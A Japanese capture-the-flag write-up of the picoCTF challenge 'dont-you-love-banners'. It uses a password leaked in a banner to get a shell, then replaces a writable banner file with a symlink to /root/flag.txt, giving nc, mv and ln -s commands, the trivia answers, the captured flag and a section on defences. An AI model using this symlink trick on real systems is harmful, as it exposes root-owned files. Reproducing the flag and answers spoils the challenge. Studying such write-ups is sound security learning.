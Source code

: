 # dont-you-love-banners — Writeup

## 概要

サービスは別ポートで**SSHバナー風にパスワードを漏らす**（例: `SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234`）という情報漏洩を起点にしている。漏れたパスワードを使って別の対話サービスに接続すると、対話の正答で `player` のシェルが与えられ、その権限で `banner` を差し替えることで `/root/flag.txt` の中身を表示させられる。

---

## 重要な観察点

* 別ポート（ログ例では `tethys.picoctf.net:58407`）に接続するとバナーに `My_Passw@rd_@1234` が含まれていた。これが認証に使えるパスワードの手がかりである。
* 対話型のサービス（例: `tethys.picoctf.net:60400`）は接続後に質問を投げ、正しい回答を送ると `player` のシェルへ移行する。
* `player` はホームディレクトリの `banner` を書き換えられる権限を持っている。

---

## 再現手順（要点）

1. 情報漏洩サーバへ接続してパスワードを確認する：

   ```bash
   nc tethys.picoctf.net 58407
   # 表示例: SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
   ```

2. 得たパスワードで対話サービスに接続する：

   ```bash
   nc tethys.picoctf.net 60400
   # 質問に答すとシェルが得られる
   # 例回答:
   # What is the top cyber security conference in the world? -> def con
   # the first hacker ever was known for phreaking... -> John Draper
   ```

3. シェル上で `banner` を差し替える：

   ```bash
   # バナーをバックアップしてシンボリックリンクで置き換え
   mv banner banner_bak
   ln -s /root/flag.txt banner
   exit   # サービス側が再接続時にバナーを表示するため一度ログアウト
   ```

   *注意*: 既に `banner` が存在する場合は `mv` で退避してから `ln -s` する。

4. 再度サービスに接続すると、表示されたバナーにフラグが含まれる：

   ```bash
   nc tethys.picoctf.net 60400
   # 表示例: picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}
   ```

---

## なぜ `My_Passw@rd_@1234` が分かったのか

別ポート（今回の例だと `58407`）の接続で表示された文字列がパスワードとしてそのまま使える形式で含まれていたためである。つまり「バナーの情報漏洩」が直接の原因であり、ブルートフォースではない。

---

## 攻撃の本質と対策

* **本質**: サービスが外部から書き換え可能な（もしくはプレーヤーが操作できる）ファイルをそのまま表示しているため、シンボリックリンクで機密ファイルを指すことで情報漏洩が発生する。
* **対策**:

  * バナー等の表示に使うファイルは信頼できる固定パスに置き、ユーザが書き換えられないようにする。
  * ファイルを開く際に `O_NOFOLLOW` を使う等、シンボリックリンク参照を防ぐ。
  * 最小権限の原則に従い、サービスが不要なファイルにアクセスしないよう制限する。

---

## 最後に

このチャレンジは「バナーやヘッダ情報の漏洩」と「ローカルの書き換え可能性（symlink）」を組み合わせることで、権限昇格なしに機密を取得できる点を学ぶ良い例である。

**Flag:** `picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}`

